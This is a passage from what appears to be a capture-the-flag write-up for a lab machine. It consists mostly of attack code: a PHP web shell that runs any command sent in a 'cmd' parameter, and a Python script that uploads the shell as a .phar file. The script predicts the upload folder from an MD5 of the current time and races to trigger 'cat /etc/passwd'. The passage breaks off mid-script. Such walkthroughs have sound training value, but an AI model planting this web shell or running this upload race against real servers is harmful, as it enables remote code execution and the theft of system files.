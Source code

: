 ```php
http://www.justheretowintherace.com/
<?php
    echo "Running code...\n";

    $command = 'id';
    if(isset($_GET['cmd'])) {
        $command = $_GET['cmd'];
    }
    $descriptorspec = array(
       0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
       1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
       2 => array("pipe", "w")   // stdout is a pipe that the child will write to
    );
    $cwd = '/tmp';

    $process = proc_open($command, $descriptorspec, $pipes, $cwd);

    if (is_resource($process)) {
        fclose($pipes[0]);

        echo stream_get_contents($pipes[1]);
        fclose($pipes[1]);

        echo stream_get_contents($pipes[2]);
        fclose($pipes[2]);

        proc_close($process);
    }
?>
```

Also, I added some modifications to my Python script to improve it and make sure I could sent custom commands to the uploaded file:

```python
import requests, time, hashlib, threading
from urllib.parse import quote


url = 'http://dev.siteisup.htb'
file_name = 'rce.phar'
command = 'cat /etc/passwd'
headers = { 'Special-Dev' : 'only4dev' }
fail = False

def race_for_webshell():
    command_executed = False
    while not command_executed  and not fail:
        predicted_folder_name = hashlib.md5(str(int(time.time())).encode()).hexdigest()
        response = requests.get(f'{url}/uploads/{predicted_folder_name}/{file_name}?cmd={quote(command)}', headers=headers)
        if(response.ok):
            print()
            print(response.content.decode())
            command_executed = True
        else:
            print(f'Failed {response.status_code}: uploads/{predicted_folder_name}/{file_name}')
            time.sleep(0.5)

with open(file_name, 'rb') as file_to_upload:
    files = { 'file': file_to_upload }
    data = { 'check': 'Check' }

    print('Uploading Webshell and starting the race...')
```